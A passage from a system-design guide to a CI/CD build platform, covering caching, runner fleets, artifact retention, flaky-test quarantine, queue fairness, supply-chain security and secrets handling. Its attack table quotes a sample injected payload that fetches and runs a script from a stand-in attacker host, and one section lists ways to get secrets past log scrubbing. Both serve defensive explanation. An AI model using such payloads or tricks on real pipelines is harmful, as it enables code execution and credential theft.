- **CAS is self-verifying by construction.** A client that fetches blob `sha256:abc...` and hashes the bytes detects tampering immediately. **Clients must actually do this.** Skipping verification "for performance" removes the single strongest property of a content-addressed store.
- **The action cache is not self-verifying.** The mapping from action digest to result digest is an assertion by whoever wrote it, and it must be authenticated. This asymmetry between CAS and AC is the subtlety most designs miss.
- **Divergence detection.** Re-execute a sample of cache hits and compare against the cached result. A mismatch is either a hermeticity bug or an attack, and both need paging.

### 7.4 Runner fleet: cold start, warm pools, and preemptible economics



**Scale on queue wait, not utilisation.** Utilisation is a lagging, ambiguous signal — 100% utilisation with an empty queue is perfect, and 100% with a deep queue is an outage. The control signal is `p95 queue wait per runner class`, with the queue depth used as the feed-forward term so the fleet starts growing before the wait time has already been suffered.

**The runner class taxonomy matters more than the autoscaler.** One homogeneous fleet means big-memory jobs either fail or force every runner to be big-memory. Distinct classes (`standard-8`, `build-32`, `mem-256`, `gpu-a100`, `macos`) each get their own queue, their own warm pool and their own scaling policy, because their cold-start costs differ by an order of magnitude — a macOS runner can take ten minutes to provision, which changes the warm-pool math entirely.

**Preemptible/spot capacity** is where the money is: 60-80% cheaper, and CI is the near-perfect workload for it because jobs are short, idempotent and restartable. The requirement is that preemption must be *cheap*:

- Honour the preemption notice (30-120 s): stop accepting new actions, upload completed action results to the CAS so the work is not lost, requeue the in-flight action.
- **Never run the final publish/deploy step on spot.** A preemption between signing and publishing is a mess, and those steps are seconds of work on a fraction of the fleet.
- Keep an on-demand floor sized for the critical path, so a region-wide spot reclamation degrades throughput rather than stopping all shipping.

Because a cache hit costs milliseconds and an execution costs seconds, **the cache is the cheapest scaling lever in the fleet by three orders of magnitude.** The correct reflex when the fleet is saturated is to check the hit ratio first, not to raise the autoscaler ceiling.

### 7.5 The artifact store is its own scaling problem

Artifacts are content-addressed, immutable, deduplicated and layered:

$$
\begin{aligned}
\text{images/day} &= 3{,}000\ \text{merges} \times 4\ \text{images} = 12{,}000 \\
\text{uncompressed} &= 12{,}000 \times 800\ \text{MiB} = 9.4\ \text{TiB/day} \\
\text{after layer dedup} &\approx 12{,}000 \times 40\ \text{MiB} = 470\ \text{GiB/day} \quad (20{:}1)
\end{aligned}
$$

The 20:1 ratio is entirely due to base-layer sharing, which means **the dedup ratio is a property of your Dockerfile discipline, not of the storage system**. A team that puts `COPY . /app` before `RUN npm install` invalidates every layer on every commit and contributes 800 MiB/day instead of 40. Base-image standardisation is a storage-cost lever disguised as a style guide.

Retention is where this becomes a real system:

| Class | Retention | Reasoning |
|---|---|---|
| PR build artifacts | 7 days | Debugging window only |
| Trunk builds | 90 days | Bisecting, rollback to any recent commit |
| Released versions | Indefinite, immutability-locked | Rollback target, audit, compliance |
| Provenance + SBOM | Outlives the artifact | Needed to answer "what was in the thing we shipped in 2023?" after the artifact is gone |
| Cache CAS blobs | LRU with 14-day floor | Evicting a hot blob costs a rebuild, not correctness |

**Garbage collection must be mark-and-sweep, not reference counting**, for the same reason as any deduplicated store: a reference count that drifts low deletes a live blob, and in a content-addressed system that failure is discovered months later as an unreproducible build. Mark from the roots (live artifacts, recent action results, retained runs), sweep with a quarantine period, and rate-limit deletion — because the code most likely to destroy the system is the code whose job is destroying things.

!!! warning "Deleting a cached artifact breaks rollback, which breaks your incident response"
    Retention is an availability control. A 30-day trunk retention means you cannot roll back to a 31-day-old build during an incident — you must rebuild it, which takes minutes you do not have, and which may not even succeed if a dependency has since been yanked. The artifact retention window must be at least as long as your maximum plausible rollback distance, and that number comes from incident history, not from the storage budget.

### 7.6 Flaky tests: the arithmetic that forces quarantine

With $N$ independent tests each having an independent per-run flake probability $p$:

$$
P(\text{all pass}) = (1-p)^N \approx e^{-pN}
$$

At $N = 30{,}000$ test targets:

| Per-test flake rate $p$ | $pN$ | P(green build) | Consequence |
|---|---|---|---|
| $10^{-3}$ | 30 | $9 \times 10^{-14}$ | Trunk is **never** green. Ever. |
| $10^{-4}$ | 3 | 5.0% | Effectively never green |
| $10^{-5}$ | 0.3 | 74% | One in four builds is a false alarm |
| $1.7 \times 10^{-6}$ | 0.051 | 95% | Meets N8 |

**To hold a 95% green rate across 30,000 tests, the average test must flake less than once in 600,000 executions.** That is an extraordinary standard, and no amount of "please fix your flaky tests" gets an organisation there. The system must handle it structurally.

**Detection is exact, not statistical — if the build is hermetic.** Two executions with the same `action_digest` had byte-identical inputs, so a divergent outcome is a flake by definition:

```sql
-- Flake rate over 7 days: identical inputs, non-identical outcomes.
WITH by_action AS (
  SELECT target_id,
         action_digest,
         COUNT(*)                                        AS runs,
         COUNT(DISTINCT outcome)                         AS distinct_outcomes,
         SUM((outcome <> 'pass')::int)                   AS failures
  FROM test_execution
  WHERE executed_at > now() - interval '7 days'
  GROUP BY target_id, action_digest
  HAVING COUNT(*) >= 3
)
SELECT target_id,
       SUM(CASE WHEN distinct_outcomes > 1 THEN failures ELSE 0 END)::real
         / NULLIF(SUM(runs), 0) AS flake_rate_7d
FROM by_action
GROUP BY target_id
ORDER BY flake_rate_7d DESC;
```

**This is the payoff for §7.2's hermeticity work.** Without it, "same inputs" is unknowable and flake detection degrades to a heuristic ("failed then passed on retry"), which misclassifies real regressions that were fixed in between and misses flakes that fail consistently on one worker.

**Quarantine policy** — the four rules that make it a tool rather than a graveyard:

1. Above a threshold (say 0.5% over 7 days with a minimum sample), the target automatically leaves the blocking set. It still runs, results are still recorded, it just cannot fail the build.
2. **Quarantine has an owner and an expiry.** A quarantined test with no owning team is a deleted test with extra steps. The expiry forces re-evaluation.
3. **Quarantine budget per team.** Without a cap, quarantine becomes the path of least resistance and coverage erodes invisibly. A hard cap of, say, 20 quarantined targets per team makes the trade explicit: to quarantine a new one, fix an old one.
4. **A quarantined test that starts failing 100% of the time is a real regression** and must alert. It is not blocking the build, so nothing else will tell you.

**Sharding by historical duration, not by name.** A 40-way parallel test job sharded alphabetically has one shard taking 18 minutes and 39 taking 2, because test durations follow a heavy-tailed distribution. Bin-packing shards by p95 historical duration typically cuts the critical path by 3-5x for free. The tail test is also the most valuable one to profile: a single 18-minute integration test sets the floor for every PR in the repo.

### 7.7 Multi-tenant queue fairness

Thousands of teams share one runner fleet. The default behaviour of a single FIFO queue is that **one team's 5,000-job build matrix delays every other team's one-line fix by an hour**, which is the most reliable way to make a platform hated.



Three layers, applied in order:

**Priority classes first, and they are strict.** A release-blocking build preempts a nightly regression sweep, always. Nightly and scheduled work runs at negative priority on spot capacity and is designed to be preempted. This single distinction removes most of the perceived unfairness, because the jobs people are actually waiting on are a small fraction of total volume.

**Weighted fair queuing within a class.** Each tenant gets a share proportional to its weight; unused share is redistributed to whoever has work (work-conserving). Team A's 5,000 jobs get their share and no more, so Team B's 3 jobs start immediately. The critical implementation detail is that **fair share is computed over a sliding window of consumed CPU-seconds**, not over job count — otherwise a tenant submitting 5,000 one-second jobs beats a tenant submitting 3 one-hour jobs.

**Dominant resource fairness** across heterogeneous resources. A tenant using 80% of the GPU fleet and 2% of the CPU fleet is at 80% of its dominant share, and it should not be able to claim CPU fairness. Without DRF, GPU-heavy teams starve everyone on the resource nobody is watching.

Three practical additions that matter as much as the algorithm:

- **Per-tenant concurrency caps** as a hard backstop, because fair queuing still lets one tenant occupy the entire fleet when nobody else has work — and then a burst from another tenant waits for those jobs to drain.
- **Anti-starvation aging.** A job's effective priority increases with queue time, so a low-priority job cannot wait forever. Without it, a continuously-busy high-priority tenant starves a low-priority one indefinitely.
- **Admission control and per-tenant rate limits on *submission*.** A misconfigured loop triggering builds in a cycle is a real and frequent incident, and fair queuing does not stop it from consuming its full share forever. See [F17 Rate Limiting & Load Shedding](../fundamentals/f17-rate-limiting-load-shedding.md).

### 7.8 Supply chain: provenance, signing, and the real attack surface



**SLSA levels, and what each actually costs you:**

| Level | Requirement | Engineering cost | Blocks |
|---|---|---|---|
| L1 | Build is scripted; provenance exists | Low | Nothing; it is documentation |
| L2 | Hosted build service; provenance signed by the service | Medium | Casual tampering by a developer |
| L3 | Builds run in an isolated, ephemeral environment; provenance is unforgeable by the build job itself | **High** | A compromised build job forging its own provenance |
| L4 | Two-party review + hermetic, reproducible builds | Very high | A malicious maintainer; and enables independent verification |

**L3 is the meaningful step and the one worth explaining.** Its defining requirement is that *the build job cannot forge its own provenance*. That means the signing key is never available inside the build container — a separate, privileged component observes the build and signs the attestation out of band. If the job can reach the key, a compromised build step signs whatever it likes and the attestation is worthless. This single property is what distinguishes real provenance from a JSON file the build wrote about itself.

The provenance document answers the questions you need during an incident:

```json
{
  "_type": "https://in-toto.io/Statement/v1",
  "subject": [{ "name": "checkout",
                "digest": { "sha256": "9f1c...e4" } }],
  "predicateType": "https://slsa.dev/provenance/v1",
  "predicate": {
    "buildDefinition": {
      "buildType": "https://ci.internal/bazel/v1",
      "externalParameters": {
        "repository": "git+https://scm.internal/payments/checkout",
        "ref": "refs/heads/main"
      },
      "resolvedDependencies": [
        { "uri": "git+https://scm.internal/payments/checkout",
          "digest": { "gitCommit": "abc123..." } },
        { "uri": "oci://registry.internal/toolchain",
          "digest": { "sha256": "77aa...01" } }
      ]
    },
    "runDetails": {
      "builder": { "id": "https://ci.internal/builders/trusted-v2" },
      "metadata": { "invocationId": "run/88412",
                    "startedOn": "2026-09-25T09:14:02Z" }
    }
  }
}
```

**Verification happens at admission, not at build time.** The deployment target refuses to run an image whose signature does not verify against the expected builder identity and whose provenance does not show it came from the protected branch of the expected repository. Producing attestations that nobody verifies is theatre; the enforcement point is the whole value.

**The attack surface, concretely:**

| Attack | Mechanism | Defence |
|---|---|---|
| **Dependency confusion** | Publish `internal-auth-lib` to the public registry with version 99.0.0; the resolver prefers the higher version from the public index | Scoped/namespaced internal packages, an internal registry that **never** falls through to public for internal namespaces, lockfiles with digest pinning, and explicit registry pinning per scope |
| **Typosquatting** | `reqeusts`, `python-dateutil` vs `dateutil` | Allow-listed dependency introduction with review; automated similarity checks on new dependencies |
| **Compromised upstream maintainer** | A legitimate package ships a malicious version | Pin by digest, not by range. Delay adoption of new versions. Vendor critical dependencies |
| **Build injection** | Compromise the builder and modify outputs in place, as in SolarWinds | Ephemeral single-use builders, hermetic builds, and **reproducible builds verified by an independent rebuilder** — the only defence that actually detects it |
| **Cache poisoning** | Write a malicious `ActionResult` from an untrusted PR build | §7.3 write tiering, signed cache entries |
| **Poisoned pipeline execution** | A PR modifies `.ci/pipeline.yaml` and the PR build runs the modified pipeline with production credentials | Pipeline config for privileged jobs comes from the **base** branch, never the PR head; no secrets available to PR builds from forks; privileged jobs require a merged commit |
| **Self-hosted runner persistence** | A PR job writes to a persistent runner's disk; the next job (from a different repo) inherits it | Ephemeral runners, one job per instance, destroyed after use. This is non-negotiable for any runner that ever executes untrusted code |
| **Script injection into the pipeline** | A PR title containing `$(curl attacker.com | sh)` interpolated into a shell command | Never interpolate untrusted input into shell; pass via environment variables and quote; treat all PR metadata as hostile |

### 7.9 Secrets that do not leak

The strongest possible design is to **not have a secret**. Workload identity federation: the pipeline presents a short-lived OIDC token asserting "I am run 88412, from repo `payments/checkout`, on branch `main`, triggered by a merge"; the cloud provider or internal auth service exchanges it for a credential scoped to that claim set and valid for ten minutes.

```yaml
# The claim-conditioned trust policy is where the security actually lives.
trust_policy:
  issuer: https://ci.internal/oidc
  audience: sts.internal
  conditions:
    repository: "payments/checkout"
    ref:        "refs/heads/main"          # NOT refs/pull/*
    event:      "push"
    environment: "production"              # requires the gated environment
  grants:
    - role: deploy-checkout-prod
      ttl: 10m
```

The three properties that make this strictly better than a stored secret: nothing long-lived exists to exfiltrate; the credential is bound to *this* run, so a leaked token expires in minutes and is traceable; and the scope is asserted by the platform rather than configured by the team, so a PR branch simply cannot obtain the production role no matter what its pipeline file says.

Where a real secret is unavoidable:

- **Injected as files in a `tmpfs`, not environment variables.** Environment variables leak through `/proc/*/environ`, crash dumps, child processes, debug endpoints and error-reporting SDKs that helpfully attach the environment.
- **Never available to builds from forks**, and never to any job whose pipeline definition came from the PR head.
- **Log scrubbing is a backstop, not a control.** It matches known secret values and masks them. It is defeated by base64, by `echo $SECRET | rev`, by splitting across lines, by printing one character per line, and by any transformation at all. Rely on it to catch accidents; never let anyone claim it prevents exfiltration by a hostile job.
- **`set -x` is the number one accidental leak.** A debug flag added during troubleshooting prints every expanded command, including the one with the token in it. Lint for it; block it in privileged jobs.
- **Secret scanning on artifacts, not just logs.** A credential baked into a container image layer or a compiled binary never appears in a log and ships to production.
- **Automated rotation on exposure, with a rehearsed path.** The detection is worthless if rotating takes a day; assume every secret will eventually be exposed and make the response mechanical. See [F27 Security in Design](../fundamentals/f27-security-design.md).

---

## 8. Scaling the Bottleneck

The bottleneck migrates predictably:

| Stage | Binding constraint | Fix |
|---|---|---|
| Small (1 repo, 50 engineers) | Runner count | Buy more runners |
| Medium (100 repos) | Cache hit ratio; cold starts | Remote cache, warm pools, hermeticity work |
| Large (1,000 repos) | Queue fairness; flake rate | WFQ + priority classes; flake detection and quarantine |
| Very large (monorepo, 200k targets) | **Graph analysis and cache metadata QPS** | Incremental graph analysis, batch lookups, sharded cache metadata |
| Extreme | **Critical path depth of the DAG** | Restructure the codebase; no infrastructure fix exists |

**Scaling the cache**, which is where most of the work lands:

- **CAS scales horizontally and trivially.** Content addressing means keys are uniformly distributed and blobs are immutable, so consistent hashing across a large node set works with no rebalancing complexity and no cache-invalidation problem. See [F06 Partitioning & Sharding](../fundamentals/f06-partitioning-sharding.md).
- **Action cache metadata is the harder half.** 40M writes/day and far more reads, with a strict latency requirement because it sits on the critical path of every build. Shard by action digest prefix; keep the hot working set in memory.
- **Batch everything.** `findMissing` with 10,000 digests in one call. The difference between batched and per-action lookups is the difference between a working cache and a cache that is slower than rebuilding.
- **Regional cache replicas.** A cache 80 ms away with a 97% hit rate adds 80 ms to 200,000 lookups. Read-through regional replicas backed by a global CAS keep lookups local; blobs are immutable, so replication is trivially safe.
- **Bloom filters on the client** for negative lookups: a client-side filter of recently-seen digests eliminates most round trips for actions known to be absent. See [F21 Probabilistic Structures](../fundamentals/f21-probabilistic-data-structures.md).

**Scaling graph analysis.** For a 200,000-target graph, re-analysing from scratch on every commit costs 30-90 s before a single action runs. Incremental analysis — keep the resolved graph in a warm server process and apply only the delta implied by the changed files — brings that to a few seconds, and it is often the single largest latency win available after the cache itself.

!!! example "When the answer is 'change the code, not the platform'"
    Once $h > 0.99$, build wall time is the DAG critical path: $D \times t$. If a repo has a 40-deep chain because everything depends on one monolithic `common` target, no scheduler, cache or machine size will help — the work is inherently serial. The fix is splitting `common` so the graph is wide instead of deep. Platform teams that do not say this out loud end up buying hardware forever to work around a code-structure problem, and the interview signal for recognising this is very strong.

---

## 9. Failure Modes

| Failure | Blast radius | Detection | Mitigation | Degraded behaviour |
|---|---|---|---|---|
| Remote cache unavailable | **Every build, company-wide**: 5 min becomes 2.5 h | Cache error rate, p99 latency, hit ratio collapse | Client falls back to local execution with a circuit breaker after N failures; multi-AZ cache; read replicas | Builds succeed but 30x slower. The fleet cannot absorb it, so a queue backlog follows within minutes. **Graceful degradation here is the highest-value resilience investment in the platform** |
| Cache poisoned with a malicious entry | **Any artifact built from it — potentially everything shipped** | Reproducibility sampling divergence; signature verification failure | Trust tiering (PR builds cannot write), signed entries, client-side digest verification | Requires purging affected digests and rebuilding from source with the cache disabled. Then a full provenance audit of everything deployed in the window |
| Cache poisoned accidentally by a non-hermetic action | Silently wrong binaries for as long as the entry lives | Reproducibility rate SLI | Hermetic sandbox, continuous double-execution sampling | Hard to detect without the sampling job, which is exactly why it exists |
| Artifact store outage | No publishing; deploys blocked; running services unaffected | Upload/download error rate | Multi-region replication, immutable so replication is safe, registry pull-through cache at the edge | Builds and tests run; nothing ships. Existing deployments keep running |
| Scheduler outage | Nothing starts; running jobs continue | Queue depth growth with zero dispatch rate | Stateless scheduler with leader election; queue state in durable storage | Backlog accumulates and drains after recovery; a 10-minute outage becomes 30 minutes of elevated wait |
| Spot reclamation across a whole AZ | Large fraction of in-flight jobs killed | Preemption rate spike | On-demand floor for critical path; completed action results already uploaded so work is preserved; automatic requeue | Throughput drops; latency rises; nothing is lost. Without result upload on preemption, all partial work is lost |
| Runaway trigger loop (CI commits, which triggers CI) | One tenant consumes the fleet | Trigger rate per repo; identical-commit detection | Per-tenant submission rate limits, loop detection on `[skip ci]` and bot authorship, hard concurrency caps | Fair queuing bounds the damage to that tenant's share, but the tenant's own pipeline is unusable |
| Flake rate crosses the cliff | **Trunk permanently red; developers stop trusting the build** | Green-build rate; per-target flake rate | Auto-quarantine with owner and expiry; flake budget per team | The system keeps shipping, but the quality gate has silently stopped functioning — the most dangerous degraded state because everything looks fine |
| Secret leaked into a log or artifact | Depends on the secret; potentially production | Secret scanning on logs and artifact layers | OIDC federation so there is no long-lived secret; `tmpfs` file injection; automated rotation | Rotate immediately, audit for use, and treat it as a security incident regardless of whether exposure was internal |
| Build-time dependency yanked or registry down | Every build needing it | Dependency resolution error rate | Vendored deps or an internal mirror with a pull-through cache and long retention | Builds fail on an external party's outage — which is why "we depend on npm being up to ship a hotfix" is an availability bug |
| Log storage saturated by one verbose job | Ingest lag for everyone; logs lost | Ingest rate per run, storage growth | Per-job log size caps with truncation and a clear marker, backpressure to the runner | Verbose job truncated; everyone else unaffected. Without caps, a single job with a debug loop fills the store |
| Control-plane DB primary failover | 30-60 s of trigger and status errors | Error rate, replication lag | Idempotent triggers so retries are safe; read replicas serve status pages | Webhooks retry and dedupe on the content key; running jobs unaffected because workers hold their own state |

---

## 10. SRE Lens

### SLIs and SLOs

| SLI | Definition | SLO |
|---|---|---|
| **PR feedback latency** | p50 / p95 of commit-pushed to all-required-checks-complete | **< 5 min / < 15 min** |
| Queue wait | p95 from job enqueued to job started, per runner class | < 30 s |
| **Cache hit ratio** | Action cache hits / lookups, on incremental builds | **> 97%** |
| Cache availability | Non-error cache requests | 99.95% |
| Cache latency | p99 AC lookup / p99 10 MiB CAS fetch | < 50 ms / < 500 ms |
| **Green-build rate on trunk** | Runs passing on first attempt | **> 95%** |
| Flake rate | Divergent outcomes / executions at identical action digest | < 0.1% per target |
| **Reproducibility rate** | Sampled double-executions with identical output digests | **> 99.9%** |
| Pipeline availability | Successful trigger-to-completion, excluding user build failures | 99.9% |
| Provenance coverage | Production deploys with a verified attestation | 100% |
| Deploy lead time | Merge to production (elite DORA) | p50 < 1 h |
| Change failure rate | Deploys triggering rollback | < 15% |
| Secret exposure events | Detections in logs or artifacts | Zero |

!!! note "Cache hit ratio is an SLI, not a vanity metric"
    It belongs on the same page as availability because it is the primary determinant of both developer latency and infrastructure cost, and because it degrades *silently*. Nothing breaks when the ratio drops — builds still pass, just slower and more expensively. Alarm on the ratio itself and, more usefully, on the **derivative**: a 2-point drop in a day means somebody merged a change that broke a cache key, and you want to find it within hours, not at the next budget review. Break it down per target pattern so the alert points at the culprit.

### Error budget

99.9% pipeline availability over 30 days is **43 minutes**. But the budget that actually binds is **PR feedback latency**: missing the 15-minute p95 for two hours a day, every day, consumes no availability budget at all and is far more damaging to the organisation. Track latency SLO burn separately and give it teeth.

Two budgets with different politics:

- **Platform-owned**: cache availability, queue wait, scheduler uptime. Standard error-budget policy — freeze feature work when exhausted.
- **Tenant-owned**: flake rate, build duration, cache hit ratio for *their* targets. These are consumed by teams, so the policy must attach consequences to the team causing the burn: a team over its flake budget loses the ability to quarantine more tests until it fixes some. Without that, the platform team absorbs the cost of everyone else's decisions. See [F23 SLI/SLO & Error Budgets](../fundamentals/f23-slo-error-budgets.md).

### Rollout

- **The CI platform cannot test its own deployment with itself.** That circular dependency has to be broken explicitly: a separate bootstrap pipeline on separate infrastructure deploys the platform, and it must be exercised regularly rather than kept as an emergency-only path that has rotted.
- **Runner image changes are the highest-risk change class.** A new toolchain version changes every action digest and invalidates the entire cache. Roll out by percentage of jobs, watch hit ratio and build success, and pre-warm the cache by running trunk builds on the new image before general availability. Shipping a runner image change on Friday afternoon means Monday's first builds are all cold.
- **Cache format or key-schema changes are one-way doors.** Version the key schema explicitly, run old and new in parallel during migration, and accept a hit-ratio trough whose depth and duration you have modelled in advance.
- **Dual-write, then dual-read, then cut over** for any cache backend migration, verifying that both return identical results for a sample before trusting the new one.
- **Canary the scheduler by tenant**, not by percentage of jobs — fairness bugs only manifest under multi-tenant contention, and a 5% random sample of jobs does not reproduce it. See [F25 Deployment & Release Safety](../fundamentals/f25-deployment-release-safety.md).

### Runbook notes

```text
ALERT: cache_hit_ratio < 90% (was 98%)
  1. Global or scoped? Break down by repo, target pattern, runner class.
     Global => infrastructure. Scoped => somebody's commit.
  2. Runner image changed recently? A new image digest invalidates every
     action that uses it. Check the rollout timeline first; this is the
     single most common cause and it is expected, not a bug.
  3. Diff two action digests for the SAME logical target across two runs
     and find the differing field. It is almost always one of:
     a timestamp, an absolute path, a leaked env var, a floating tag.
  4. Cache eviction too aggressive? Check CAS eviction rate against
     store capacity. A store that is full evicts blobs that are about
     to be needed.
  5. If it is a code change: revert first, explain second. The bill is
     accruing at roughly 3x per hour it stays in.

ALERT: queue_wait_p95 > 120s
  1. Hit ratio first, ALWAYS. A cache regression presents as a capacity
     problem because every build suddenly needs 30x the compute. Do not
     scale the fleet to paper over a cache bug.
  2. Runner class breakdown. One saturated class (gpu, macos, mem-256)
     with the rest idle is a provisioning problem, not a demand problem.
  3. Autoscaler healthy? Check for cloud quota errors, spot capacity
     unavailable in the AZ, or hitting a configured max.
  4. One tenant dominating? Check fair-share accounting. A trigger loop
     is common: same repo, same commit, bot author, high frequency.
  5. Short-term relief: raise the on-demand ceiling and shed nightly and
     scheduled work, which is the correct load to drop first.

ALERT: reproducibility_rate < 99.5%
  Treat as a correctness incident, not a performance one.
  1. Which actions diverged? Diff the two outputs at the byte level.
     Timestamps and path strings are visible immediately in the diff.
  2. If the divergence is in a widely-depended-on target, the cache may
     contain wrong results NOW. Scope the exposure by action digest and
     purge, then rebuild affected artifacts from source.
  3. Rule out an attack before concluding it is a hermeticity bug.
     Check which worker produced each result and whether any untrusted
     tier has write access it should not have.

ALERT: secret_detected_in_log
  Security incident. Page security, not just the platform on-call.
  1. Rotate the credential BEFORE investigating. Every minute counts and
     the investigation can happen against a dead credential.
  2. Determine exposure: was the log public, or fork-accessible? Who
     accessed it? Logs are usually readable by far more people than
     the secret's owners assume.
  3. Audit the credential's usage for the exposure window.
  4. Root cause: set -x? A debug echo? A tool printing its config on
     error? Fix the class, not the instance, and add a lint rule.
```

### Capacity model

$$
\begin{aligned}
\text{CPU-h/day} &= R \times A \times (1-h) \times t_a \\[4pt]
\text{peak concurrency} &= \lambda_{\text{peak}} \times W \quad (\text{Little's law}) \\[4pt]
\text{warm pool size} &= \text{concurrency}_{p50} \times (1 + \text{burst factor}) \\[4pt]
\text{CAS capacity} &= \text{unique bytes/day} \times \text{retention days} \times 1.3 \\[4pt]
\text{cache metadata QPS} &= R \times A / \text{mean build duration}
\end{aligned}
$$

where $R$ = runs/day, $A$ = actions per run, $h$ = hit ratio, $t_a$ = mean action seconds.

**The term that dominates everything is $(1-h)$.** A capacity plan that does not treat hit ratio as its primary input is a plan that will be wrong by a factor of three the first time somebody breaks a cache key. Forecast in terms of hit ratio and model the downside scenario explicitly: "if $h$ drops to 0.90 we need 3.3x the fleet, which we cannot provision in under a week, so the mitigation is a revert policy and not a capacity buffer." See [F24 Capacity Planning](../fundamentals/f24-capacity-planning.md).

### Cost

| Line | Driver | Lever |
|---|---|---|
| Runner compute | $(1-h) \times$ actions $\times$ duration | **Cache hit ratio, first and by a mile** |
| Runner compute (pricing) | On-demand vs spot mix | Spot for everything except publish/deploy; 60-80% saving |
| Warm pool idle | Pool size $\times$ 24 h | Size to p50, not peak; spot for the pool itself |
| Cache storage | Unique bytes $\times$ retention | Shorter TTL on PR-scoped caches; tiering to warm storage |
| Cache egress | Bytes fetched per build | "Builds without the bytes"; regional replicas; layer dedup |
| Artifact storage | Images $\times$ retention $/$ dedup | Base-image standardisation, layer ordering discipline |
| Cross-AZ/region traffic | Worker-to-cache locality | Zone-local cache replicas; schedule workers near their cache |

The cost conversation that matters is the **cache hit ratio versus engineer time** trade, because they point the same way: higher hit ratio is simultaneously cheaper and faster, which is rare and worth exploiting. The one genuine tension is retention — a longer cache TTL raises hit ratio and raises storage cost — and that is a straightforward optimisation once you can price both sides. See [F28 Cost Engineering](../fundamentals/f28-cost-engineering.md).

---

## 11. Trade-offs & Alternatives

| Decision | Chosen | Alternative | Why |
|---|---|---|---|
| Build model | Action DAG with content-addressed keys | Script per stage | Only a DAG lets you compute the minimal rebuild set; scripts rebuild everything or rely on fragile timestamp heuristics |
| Cache key | Full input Merkle root + platform + command | Git SHA, or file mtimes | SHA-keyed caches miss across branches entirely; mtimes are wrong after checkout and unusable across machines |
| Cache trust | Tiered: trusted builders write, PRs read-only | One shared read-write cache | A shared writable cache lets any PR inject bytes into production artifacts. Read-only PR access keeps 97% of the benefit at none of the risk |
| Hermeticity | Enforced sandbox: no network, allow-listed env, pinned toolchain | Best-effort convention | Non-hermeticity produces *wrong cache hits*, which are undetectable by testing. Convention decays one action per sprint |
| Execution | Remote execution on a shared fleet | Local builds on developer machines | Shared fleet gives cross-developer cache sharing and uniform platform; local builds fragment the cache by definition |
| Runner lifetime | Ephemeral, one job per instance | Long-lived, reused runners | Reuse means a PR job can persist state for the next tenant's job. Non-negotiable when untrusted code runs |
| Capacity | Spot majority + on-demand floor + warm pool | All on-demand | CI is short, idempotent, restartable — the ideal spot workload. Keep publish/deploy off spot |
| Autoscale signal | p95 queue wait, with queue depth feed-forward | CPU utilisation | Utilisation cannot distinguish "perfectly busy" from "hopelessly backlogged" |
| Fairness | Priority classes, then WFQ over CPU-seconds, then DRF | FIFO, or per-repo concurrency caps alone | FIFO lets one matrix build block the company. CPU-seconds rather than job count prevents gaming with many tiny jobs |
| Flaky tests | Auto-quarantine with owner, expiry and a team budget | Retry until green | Retry-until-green removes all pressure to fix and silently disables the quality gate |
| Test sharding | Bin-pack by p95 historical duration | Alphabetical or round-robin | Durations are heavy-tailed; naive sharding leaves one shard 9x longer than the rest |
| Secrets | OIDC workload identity federation | Long-lived secrets in a vault, injected as env vars | Nothing long-lived to steal; credential is bound to the run and expires in minutes; scope is asserted by the platform, not configured by the team |
| Provenance | SLSA L3: signing outside the build job | Build job writes and signs its own attestation | If the build can reach the key, a compromised build signs whatever it wants. Self-attestation is not attestation |
| Artifact GC | Mark-and-sweep with quarantine | Reference counting | A count that drifts low deletes a live blob, discovered months later as an unreproducible build |
| Pipeline config | Versioned with the code; privileged jobs read config from the base branch | Config in a central UI, or always from PR head | Config-as-code is reviewable; base-branch resolution prevents a PR from rewriting the pipeline that holds production credentials |

??? note "Monorepo versus many repos, from the CI platform's point of view"
    A monorepo gives the platform its best possible situation: one dependency graph, atomic cross-project changes, one toolchain version, and a cache whose entries are shared by everybody. The cost is that the platform must be excellent — a 200,000-target graph demands incremental analysis, precise target determination, a high-performance remote cache and remote execution, none of which are optional. Many repos give you natural isolation and small graphs where a naive platform works fine, at the price of a dependency-version matrix nobody can reason about, cross-repo changes that require coordinated multi-PR choreography, and cache entries that cannot be shared because every repo pins a slightly different toolchain. The decision is usually made for you by history. What is genuinely portable is the *technique*: content-addressed action caching, hermetic execution and remote execution work identically in both, and a multi-repo estate that adopts them gets most of the monorepo's build performance without the migration. The thing a multi-repo estate cannot get back is **atomic cross-cutting change**, which is the real reason large organisations end up in a monorepo.

---

## 12. Gotchas & Corner Cases

!!! gotcha "One timestamp in a shared compile flag costs seven figures"
    **Symptom:** build times jump from 5 minutes to 40 across every repo, overnight, with no infrastructure change. The fleet saturates and queue wait explodes.
    **Mechanism:** someone added `-DBUILD_TIME=$(date)` or a build number to a compilation flag used by a widely-shared target. Every dependent action now has a unique digest on every run. If it reaches 40% of the graph, hit ratio goes 0.99 to 0.59 and executed actions go up 40x.
    **Mitigation:** alarm on cache hit ratio and specifically on its *derivative*, broken down per target pattern, so the alert names the culprit within hours. Lint the action-key inputs for volatile values. Inject version stamps only at the final link or package step, into exactly one small target, using a mechanism the build tool understands as a stamped input (`--stamp` / `workspace_status`) so it does not propagate. And make the cost visible: the revert conversation is easy when you can say "this is costing $4,000 a day".

!!! gotcha "A pull request poisons the cache and ships a backdoor without being merged"
    **Symptom:** an artifact built from trunk contains code that exists in no commit on trunk. Provenance says it was built by the trusted builder from the right SHA — and that is all true.
    **Mechanism:** the shared remote cache accepts writes from PR builds. An attacker opens a PR, computes the action digest of a real trunk action, writes a malicious `ActionResult` for it, and closes the PR. The next trunk build gets a cache hit and links the attacker's object file.
    **Mitigation:** strict write tiering — only builds from protected branches, running on trusted builders, may write to the trusted cache; PR builds read it and write only to their own scoped namespace. Sign `ActionResult` entries with the producing worker's identity and verify on read. Run continuous reproducibility sampling so a cached result that does not match a fresh execution pages somebody. Note that the CAS is self-verifying (you hash what you fetch) but **the action cache is not** — the digest-to-result mapping is an unauthenticated assertion unless you make it one, and that asymmetry is the whole vulnerability.

!!! gotcha "Retrying failed tests until green destroys the test suite over a year"
    **Symptom:** the build is almost always green, everybody is happy, and then a real regression reaches production and post-mortem finds the test that would have caught it had been failing intermittently for four months.
    **Mechanism:** `flaky_test_attempts: 3` or `retry on test_failure` converts a flake into a pass. Since flakes no longer cost anything, nobody fixes them, so the flake rate rises, so more retries are needed. Eventually a genuinely broken test passes on attempt three by coincidence, or its consistent failure is assumed to be flakiness and ignored.
    **Mitigation:** retry infrastructure errors freely and silently; never retry test failures to make a build green. Detect flakes with a dedicated mechanism — identical action digest, divergent outcome — and quarantine them out of the blocking set with a named owner, an expiry and a per-team budget. Track green-build rate as an SLI so the gate's health is visible. The organisational point is the important one: **a retry is a decision to stop learning from a signal**, and it should be as deliberate as deleting a test.

